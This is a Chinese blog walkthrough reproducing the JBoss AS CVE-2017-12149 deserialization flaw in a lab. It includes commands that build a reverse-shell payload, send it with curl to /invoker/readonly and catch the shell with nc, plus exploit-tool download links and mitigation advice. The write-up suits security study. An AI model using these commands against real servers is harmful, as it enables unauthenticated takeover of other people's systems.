







# CVE-2017-12149 漏洞利用 - Oran9e - 博客园

> 原文：[`www.cnblogs.com/Oran9e/p/7897102.html`](https://www.cnblogs.com/Oran9e/p/7897102.html)

CVE-2017-12149 JBOOS AS 6.X 反序列化漏洞利用

这次分析一下 CVE-2017-12149 ，漏洞已经爆出有几天了，今天就把这个漏洞看一下。

**        安全预警**

漏洞描述 

近期，互联网爆出 JBOSSApplication Server 反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞细节和验证代码已公开，近期被不法分子利用出现大规模攻击尝试的可能性较大。漏洞危害程度为高危(High)。 

影响范围 

漏洞影响 5.x 和 6.x 版本的 JBOSSAS。目前评估潜在受影响主机数量超过 5000 台 

漏洞原理 

JBOSS Application Server 是一个基于 J2EE 的开放源代码的应用服务器。 JBoss 代码遵循 LGPL 许可，可以在任何商业应用中免费使用，2006 年，JBoss 被 Redhat 公司收购。

2017 年 8 月 30 日，厂商 Redhat 发布了一个 JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于 JBoss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中，其 doFilter 方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现 JBOSSAS 6.x 也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。

******漏洞复现******

**环境搭建：**

首先进行搭建环境，这里我是用我的电脑本机和虚拟机 kali 进行的，当然你也有其他的选择。

准备阶段：

kali  : 192.168.1.105

win7 : 192.168.1.121 （安装了 java 环境）





 (1)从官网下载 jboss 安装包( http://jbossas.jboss.org/downloads/ )，此漏洞影响 5.X 及 6.X，所以我下载的是 JBoss AS6.1.0.Final 这个版本（文末有分享）

 (2)解压压缩包，cmd 进入 \jboss-6.1.0.Final\bin 目录下

 (3)在 cmd 中执行 run.bat -b 0.0.0.0

 (4)如图中所示即为运行成功



 

(5)  jboss 默认安装端口为 8080，在浏览器中访问结果如下图所示

 

(6) 如上图所示，即安装成功。

**漏洞利用：**

首先检测目录，访问链接（http://192.168.1.121:8080/invoker/readonly）

可以看到是返回 500，一般漏洞就是存在了。

下载利用工具：JavaDeserH2HC（http://scan.javasec.cn/java/JavaDeserH2HC.zip）

把上面下载到的工具复制到 kali 里面，解压即可。

接下来输入命令：

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

```
java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port //反弹 shell 的 IP 和端口
```

这里我写下我的，下面截图也是可以看到的。

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.105:4444（IP 是 kali 的 ip,4444 是下面要监听的端口，这里写哪个端口下面就要监听哪个端口）

```

这个时候会同目录下生成一个 ReverseShellCommonsCollectionsHashMap.ser 文件，curl 这个二进制文件就可以了。

```
curl http://192.168.1.121:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

下面就是监听和发送 payload

用 nc 监听端口：

```
nc -vlp 4444     
```

直接在 kali 打开个新的终端监听即可。



发送 payload：


反弹 shell



利用工具下载：

下载地址：（http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip）



**漏洞建议：**

建议用户升级到 JBOSS AS7。另，不能及时升级的用户，可采取如下临时解决方案：

1.  不需要 http-invoker.sar 组件的用户可直接删除此组件。

2.  添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中：<url-pattern>/*</url-pattern>

用于对 http invoker 组件进行访问控制。

JavaDeserH2HC ： （链接: https://pan.baidu.com/s/1bpo9qIN 密码: h3pw）

JBoss AS6.1.0.Final ：（链接: https://pan.baidu.com/s/1o7XXI7g 密码: rng2）

jboss_CVE-2017-12149：（链接: https://pan.baidu.com/s/1hrUMkAg 密码: 5n54）

本文链接（http://www.cnblogs.com/Oran9e/p/7897102.html），转载请注明。

任重而道远！